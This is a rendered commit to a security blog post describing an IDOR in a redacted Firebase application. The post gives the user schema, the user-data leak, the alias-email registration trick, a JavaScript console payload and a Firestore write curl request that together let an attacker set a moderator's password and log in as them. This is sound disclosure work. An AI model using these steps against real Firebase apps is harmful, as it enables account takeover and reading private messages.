

Before and after one commit to ArgentEnergy/argentenergy.github.io, a Jekyll site: the page built from _posts/2022-08-04-email-alias-privilege-escalation.md, in a window 1280 px wide and 1400 px high, scrolled down 1846 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update 2022-08-04-email-alias-privilege-escalation.md

````diff
--- a/_posts/2022-08-04-email-alias-privilege-escalation.md
+++ b/_posts/2022-08-04-email-alias-privilege-escalation.md
@@ -8,3 +8,81 @@ During a recent assessment, I identified a vulnerability in a Firebase applicati
 
 ## Application Background
 The application allows users to watch event sessions, engage in discussions, and interact with others. Moderators have the ability to ban users or delete messages.
+
+## Vulnerability
+The vulnerability was an IDOR that allowed me to create a second profile on a user account and log in with a new registration number (password), effectively giving the account two passwords—the victim's and one set by the attacker.
+
+The user schema for the application is below:
+```json
+{
+    "uid": "",
+    "claims": {
+        "paid": true,
+        "moderator": true
+    },
+    "email": "original@domain.com",
+    "profile": {
+        "email": "original+1@domain.com",
+        "registration": ""
+    }
+}
+```
+
+The login process relies on the user's email and the registration number attached to the user profile.
+
+To exploit the vulnerability and create a second profile on a victim's account, the attacker would need to be logged in with an email alias of the victim's address. This requires disclosing at least two pieces of information: the user ID and email address.
+
+## Retrieving User Information
+Using the public registration link, I registered an account with my own email address. After submitting the form, I was redirected to a page displaying the account's registration number (password).
+
+**Access to the registered email address is not required to view this registration page.**
+
+Logging into the application and visiting the Networking page shows a list of users. By inspecting the JSON data from the server, I could retrieve the user's email address, user ID, and roles.
+
+<figure>
+  <img src="/assets/img/2022/privilege-escalation-1.png">
+  <figcaption>Figure 1 – List of user IDs, emails, and roles</figcaption>
+</figure>
+
+## Exploiting the vulnerability to become a Moderator
+I used the registration link to create an account with the moderator's email address as an alias (e.g., nathan+1@domain.com). Then, I logged into the application using the registration number from the page and the alias email.
+
+<figure>
+  <img src="/assets/img/2022/privilege-escalation-2-1.png">
+  <figcaption>Figure 2 – Registration page containing credentials to log in</figcaption>
+</figure>
+
+The following payload was used in the browser's JavaScript console to update the current user's profile (nathan+1@domain.com).
+```javascript
+User.updateProfile({"registration":":registrationNumber"})
+```
+
+In the Networking tab under the browser Developer Tools, I copied a Firestore HTTP API request as a curl command containing the update user call. By modifying the call with the original moderator's user ID (nathan@domain.com: 1bgH4...), I was able to create a new user profile with a custom registration number on their account.
+```bash
+curl 'https://firestore.googleapis.com/google.firestore.v1.Firestore/Write/channel?database=projects%2FredactedProjectName%2Fdatabases%2F(default)&VER=8&gsessionid=:validGSessionID&SID=:validSIDValue&RID=:rid&AID=1&zx=:value&t=1' \
+-H 'authority: firestore.googleapis.com' \
+-H 'content-type: application/x-www-form-urlencoded' \
+-H 'origin: https://redacted.com' \
+-H 'referer: https://redacted.com/' \
+--data-raw
+'count=1&ofs=1&req0___data__=%7B%22streamToken%22%3A%22:validStreamToken%22%2C%22writes%22%3A%5B%7B%22update%22%3A%7B%22name%22%3A%22projects%2FredactedProjectName%2Fdatabases%2F(default)%2Fdocuments%2Fusers%2F:userId%22%2C%22fields%22%3A%7B%22registration%22%3A%7B%22stringValue%22%3A%22:registrationNumber%22%7D%7D%7D%2C%22updateMask%22%3A%7B%22fieldPaths%22%3A%5B%22regist
+ration%22%5D%7D%7D%5D%7D' \
+--compressed
+```
+
+The curl command had to be copied from the browser using the Developer Tools, as the SID value in the URL had a short time-to-live (TTL) and required a new command if it expired.
+
+Once the curl command was executed successfully, the attacker could log into the application using the moderator's email (nathan@domain.com) and the registration number set in the curl command. This granted the attacker moderator permissions, including access to the moderator's inbox and conversations with other users.
+
+<figure>
+  <img src="/assets/img/2022/privilege-escalation-3-1.png">
+  <figcaption>Figure 3 – User escalated their permissions by logging into the moderator's account</figcaption>
+</figure>
+
+<figure>
+  <img src="/assets/img/2022/privilege-escalation-4-1.png">
+  <figcaption>Figure 4 – Viewed moderator's messages in their inbox</figcaption>
+</figure>
+
+Firebase Pentesting Reference:
+https://appsec-labs.com/firebase-applications-the-untold-attack-surface/
````
